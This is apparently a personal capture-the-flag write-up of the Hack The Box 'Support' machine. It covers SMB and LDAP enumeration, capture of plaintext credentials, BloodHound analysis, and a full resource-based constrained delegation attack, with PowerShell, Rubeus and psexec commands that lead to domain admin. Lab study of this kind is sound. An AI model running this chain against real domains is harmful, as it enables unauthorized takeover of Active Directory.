 IP: 10.10.11.174
# Enumeration
## Nmap
```bash
Nmap scan report for 10.10.11.174
Host is up (0.032s latency).
Not shown: 989 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2022-12-18 15:16:58Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2022-12-18T15:17:04
|_  start_date: N/A
```
## SMB
Works with null auth.
```bash
smbclient -N -L //10.10.11.174/
```
Has one share that is not standard `support-tools` which has a list of files. 
```
7-ZipPortable_21.07.paf.exe
npp.8.4.1.portable.x64.zip
putty.exe
SysinternalsSuite.zip
UserInfo.exe.zip
windirstat1_1_2_setup.exe
WiresharkPortable64_3.6.5.paf.exe
```
The one that stands out is UserInfo.exe.zip as everything else is a normal tool.

The file is a .net app. Running it gives a connect error.
Checking in wireshark shows it needs the host name of support.htb
Looking again in wireshark when running the app plain text creds are sent.
```
0<...`7.....support\ldap.$nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz0........a.....

......0=...c8..

..

............... givenName..eljay0...sAMAccountName0....h...e...._

. ...X0000208D: NameErr: DSID-03100221, problem 2001 (NO_OBJECT), data 0, best match of:

''

.
```
creds:
```
support\ldap:nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz
```

## Ldap dump
```bash
ldapsearch -D ldap@support -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -H ldap://10.10.11.174 -s sub -b 'DC=support,DC=htb' > ldap.dump
```
find unique values for potential passwords.
found an info field
```bash
cat ldap.dump | awk -F: '{print $1}' | sort | uniq -c | sort | grep -v '#'
```
This contains a password for the support user
support:Ironside47pleasure40Watchful

# Bloodhound
## Injester
```bash
python3 bloodhound.py -ns 10.10.11.174 -d support.htb -u support -p 'Ironside47pleasure40Watchful' -c all
```
error with dc.support.htb not resolving.
fixed :)

## Bloodhound data
Support user can PSremote. Also has genericall over the domain controller, which means RBCD attack.

# Foothold
evil-winrm
and user flag :)
# Priv esc
Using the genericall abuse info on bloodhound you can create a machine account which can be used to impersonate a domain admin.

Bloodhound's way
```powershell
New-MachineAccount -MachineAccount attackersystem -Password $(ConvertTo-SecureString 'Summer2018!' -AsPlainText -Force)

$ComputerSid = Get-DomainComputer attackersystem -Properties objectsid | Select -Expand objectsid

$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)

Get-DomainComputer $TargetComputer | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}

Rubeus.exe hash /password:Summer2018!
Rubeus.exe s4u /user:attackersystem$ /rc4:EF266C6B963C0BB683941032008AD47F /impersonateuser:admin /msdsspn:cifs/TARGETCOMPUTER.testlab.local /ptt
```
## The better way
So I have done this attack before without using powerview, instead using the adsi module which is built into powershell. This avoids downloading and running powerview on the machine.

The 4 steps.
1. Make new computer account
2. Get the SID of the account
3. Add the `allowedtoactonbehalfofotheridentity` attribute to the target. 
4. Get the ticket with rubeus.

### Step 1
Add machine
```powershell
New-MachineAccount -MachineAccount alfheim -Password $(ConvertTo-SecureString 'Wehelpedyoulasttime1!' -AsPlainText -Force)
```
### Step 2
Get the SID.
For a sanity check you can run the below to list out all machine accounts in the domain.
```powershell
$s = New-Object DirectoryServices.DirectorySearcher
$s.Filter = '(&(objectCategory=computer))'
$s.findall()
```

```powershell
$obj = [adsi]"LDAP://CN=alfheim,CN=Computers,DC=support,DC=htb"
$obj.objectsid
```
Convert to string then to binary.
```powershell
$stringSID = (New-Object System.Security.Principal.SecurityIdentifier($obj.objectsid.value,0)).Value

$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($stringSID))"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
```
### Step 3
Add the attribute
This doesn't work?
**NOTHING IS WORKING?**
*No I won't use powerview.ps1*


## Confusion?
Lets go insane by reversing the script instead.
```powershell
Get-DomainComputer $TargetComputer | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
```
The above is the issue.
`Get-DomainComputer` and `Set-DomainObject`
## Get-DomainComputer
A call to `Get-DomainSearcher`
```powershell
$CompSearcher = Get-DomainSearcher
```
passes a filter on it and then uses `.dispose()`
```powershell
$CompSearcher.filter = "(&(samAccountType=805306369)$Filter)"
```
## Get-DomainSearcher
```powershell
$Searcher = New-Object System.DirectoryServices.DirectorySearcher([ADSI]'alfheim$')
```
Does that.

```powershell
$CompSearcher = New-Object System.DirectoryServices.DirectorySearcher([ADSI]'alfheim$')
$CompSearcher.filter = "(samAccountType=805306369)"
```
*Does this work?*

nope
(40 min of being completly confused later)
swpa out the name for ldap path. Cause thats what sorta happens in step 2.
It works? (which means something else will be broken)
```powershell
$CompSearcher = New-Object System.DirectoryServices.DirectorySearcher([ADSI]'LDAP://CN=alfheim,CN=Computers,DC=support,DC=htb')
$CompSearcher.filter = "(samAccountType=805306369)"
```
And back to the start.
I have completly no idea.

## Bloodhound's way
Copy paste bloodhound's method but change the name :)
wow look it works.

Convert the ticket to ccache format
```
cat ticket_b64 | base64 -d > ticket
ticketConverter.py ticket new_ticket
```
Auth with ticket
```
KRB5CCNAME=out psexec.py -k -no-pass support.htb/administrator@dc.support.htb
```
:)